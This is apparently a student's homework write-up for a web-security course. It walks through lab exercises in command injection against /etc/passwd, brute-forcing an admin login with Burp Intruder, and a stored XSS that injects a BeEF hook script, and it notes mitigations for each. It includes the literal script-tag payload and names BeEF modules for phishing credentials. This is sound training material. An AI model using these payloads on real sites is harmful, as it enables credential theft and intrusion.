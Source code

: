 # Unit 15 Homework - Web-Vulnerabilities and Hardening

## Web Apllication #1
### Command Injection
#### Exploit
Using the dwva, use command injection to view the passwd and hosts file in /etc

![etc/passwd](images/etc-passwd.PNG)
![etc/hosts](images/etc-hosts.PNG)

#### Mitigation
The best way to avoid this vulnerability is to not allow the execution of OS commands. However, when this is not possible, properly configured server side input validation will deny access to this vulnerability.

## Web Apllication #2
### Brute Force

#### Investigation
Use the web application tool **Burp Suite**, specifically the **Burp Suite Intruder** feature, to determine if any of the administrator accounts are vulnerable to a brute force attack on this web application. 

![brute-force](images/Brute-force.PNG)

`user: tonystark`
`Password: "I am Iron Man"`

#### Mitigation
There are a number of mitigation methods to prevent brute force attacks, depending on what type of asset you are trying to defend. Two common and very effective methods are multi-factor authentication, and to lock the account after x number of failed attempts. Another possible method to prevent a brute force attack without locking the account to it's rightful owner is to prevent further attempts based on an IP address after x failed attempts, however this could easily be bypassed if the attacker is using a botnet with many ip addresses for it's bots.

## Web Application #3
### Where's the BeEF?

#### Exploit
 You are tasked with using a stored XSS attack to inject a BeEF hook into Replicants' main website.

   - Task details:
     - The page you will test is the Replicants Stored XSS application which was used the first day of this unit: `http://192.168.13.25/vulnerabilities/xss_s/`
     - The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
     - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`

   -  When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.    
      
      ![xss-post](images/xss-post-script.PNG)
    
   - Once you are able to hook into Replicants website, attempt a couple BeEF exploits. Some that work well include:
     
     - Social Engineering >> Pretty Theft
   ![Petty theft](images/xxs-facebook.PNG)
   ![BeEF facebook credentials](images/xxs-BeEF-facebook.PNG)
     
     - Social Engineering >> Fake Notification Bar
     ![xss fake notification bar](images/xxs-popup.PNG)
     ![BeEF confirmation of fake notification bar](images/xxs-BeEF-popup.PNG)
     
     - Host >> Get Geolocation (Third Party)
     ![BeEF GeoLocation](images/xxs-BeEF-GeoLocation.PNG)
     
#### Mitigation
To mitigate against xss attacks, all user input should be cleansed through the use of escaping, filtering and validation. This can be done on the client side, and **should always** be done on the server side as client side strategies won't be effective against the use of a terminal window to access your website using commands such as cURL.